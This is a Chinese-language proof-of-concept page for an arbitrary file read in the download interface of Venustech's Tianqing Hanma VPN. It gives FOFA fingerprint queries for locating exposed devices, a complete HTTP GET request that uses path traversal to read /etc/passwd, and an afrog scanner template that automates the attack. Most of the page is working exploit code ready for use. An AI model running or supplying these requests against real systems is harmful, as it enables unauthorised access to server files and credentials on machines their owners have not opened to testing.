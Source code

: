 # 启明星辰-天清汉马VPN接口download任意文件读取

启明星辰天清汉马VPN系统download接口处存在任意文件读取漏洞，获取服务器的敏感数据和配置信息，造成系统的不安全性，从而控制服务器。

## fofa

```yaml
icon_hash="-15980305"
app="网御星云-VPN" || (body="select_auth_method" && body="select_auth_input") || app="启明星辰-天清汉马VPN"
```

![image-20240713133021846](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202407131330925.png)

## poc

```yaml
GET /vpn/user/download/client?ostype=../../../../../../../etc/passwd HTTP/1.1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br, zstd
Accept-Language: zh-CN,zh;q=0.9
Connection: keep-alive
Cookie: VSG_VERIFYCODE_CONF=0-0; VSG_CLIENT_RUNNING=false; VSG_LANGUAGE=zh_CN; VSG_CSRFTOKEN=1ec96cd6acc254fcf9e9cd6d1e85cf23
Host: 
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.0.0 Safari/537.36
sec-ch-ua: "Not/A)Brand";v="8", "Chromium";v="126", "Google Chrome";v="126"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
```

![image-20240713133201088](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202407131332139.png)

## afrog poc

```yaml
id: 启明星辰-天清汉马VPN接口download任意文件读取
info:
  name: 启明星辰-天清汉马VPN接口download任意文件读取
  author: wy876

  severity: high
  description: |
     启明星辰天清汉马VPN系统download接口处存在任意文件读取漏洞，获取服务器的敏感数据和配置信息，造成系统的不安全性，从而控制服务器。
     Fofa: icon_hash="-15980305"
           app="网御星云-VPN" || (body="select_auth_method" && body="select_auth_input") || app="启明星辰-天清汉马VPN"
  reference:
    - https://github.com/wy876/POC/blob/main/启明星辰-天清汉马VPN接口download任意文件读取.md


rules:
  r0:
    request:
      method: GET
      path: /vpn/user/download/client?ostype=../../../../../../../etc/passwd
    expression: response.status == 200 && response.body.bcontains(b'root:x:0:0')

expression: r0()
```

